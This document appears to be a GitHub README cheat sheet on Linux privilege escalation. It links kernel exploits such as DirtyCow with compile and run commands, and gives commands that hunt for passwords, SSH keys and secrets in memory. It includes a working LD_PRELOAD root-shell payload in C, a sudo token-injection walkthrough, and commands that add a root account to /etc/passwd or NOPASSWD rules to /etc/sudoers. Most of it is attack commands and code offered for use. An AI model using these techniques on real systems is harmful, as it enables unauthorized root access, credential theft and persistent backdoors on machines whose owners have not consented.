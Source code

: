 # linux-privilege-Esclate
# Simple technique to esclate privilege

# Initial Enumeration
uname -a, netstat -ano, history

# Automated tools
1) Linux-Exploit-Suggester  https://github.com/mzet-/linux-exploit-suggester
2) Linux-Privilege-Script https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
3) Linux-Enumeration https://github.com/rebootuser/LinEnum


# Kernal-Exploit

1) CVE-2016-5195 (DirtyCow)
Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8  
Code: https://github.com/FireFart/dirtycow/blob/master/dirty.c  

  compile:- gcc -pthread dirty.c -o dirty -lcrypt  
  Time to execute:- "./dirty" or "./dirty my-new-password"

2) CVE-2010-3904 (RDS)  
Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8  
https://www.exploit-db.com/exploits/15285/

3) CVE-2010-4258 (Full Nelson)  
Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04)  
https://www.exploit-db.com/exploits/15704/  

4) CVE-2012-0056 (Mempodipper)  
Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)  
https://www.exploit-db.com/exploits/18411  


# Weak File Permission

ls -l | grep shadow  
ls -l | grep passwd

# File Containing Password

grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null  
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;

# Old passwords in /etc/security/opasswd
/etc/security/opasswd 

# Last edited files
*Files that were edited in the last 10 minutes*  
find / -mmin -10 2>/dev/null | grep -Ev "^/proc"

# In memory passwords
strings /dev/mem -n10 | grep -i PASS

# Find sensitive files
$ locate password | more  
/boot/grub/i386-pc/password.mod  
/etc/pam.d/common-password  
/etc/pam.d/gdm-password  
/etc/pam.d/gdm-password.original  
/lib/live/config/0031-root-password  

# SSH Key
*Sensitive files*  
find / -name authorized_keys 2> /dev/null  
find / -name id_rsa 2> /dev/null

# SUDO
* NOPASSWD Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.*  
$ sudo -l

# GTFOBinn
https://gtfobins.github.io


# LD_PRELOAD and NOPASSWD
If LD_PRELOAD is explicitly defined in the sudoers file

Defaults        env_keep += LD_PRELOAD

Compile the shared C code below on victim machine with gcc -fPIC -shared -o shell.so shell.c -nostartfiles

#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
void _init() {  
	unsetenv("LD_PRELOAD");  
	setgid(0);  
	setuid(0);  
	system("/bin/sh");  
}  
Execute any binary with the LD_PRELOAD to spawn a shell : sudo LD_PRELOAD=<full_path_to_.so_file> <program>, e.g: sudo LD_PRELOAD=/tmp/shell.so whoami  

# sudo_inject
Using https://github.com/nongiach/sudo_inject  

$ sudo whatever

[sudo] password for user:  

# Press <ctrl>+c since you don't have the password.  
# This creates an invalid sudo tokens.  
$ sh exploit.sh  
.... wait 1 seconds  
$ sudo -i # no password required :)  
# id  
uid=0(root) gid=0(root) groups=0(root)  
	
Slides of the presentation : https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf  


# Writabe /etc/passwd
If we have permission to write a passwd file in linux then generate password from this command.  

openssl passwd -1 -salt escalate  
mkpasswd -m SHA-512 esclate

Then add the generated password.

root:GENERATED_PASSWORD_HERE:0:0:root:/root:/bin/bash  
E.g: root:$1$hacker$TzyFIv0/R/c28W.GAeLw.1:0:0:root:/root:/bin/bash

You can now use the su command with root:esclate  
E.g: su root  

# Writable /etc/sudoers
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers  

# use SUDO without password
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers  
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers  
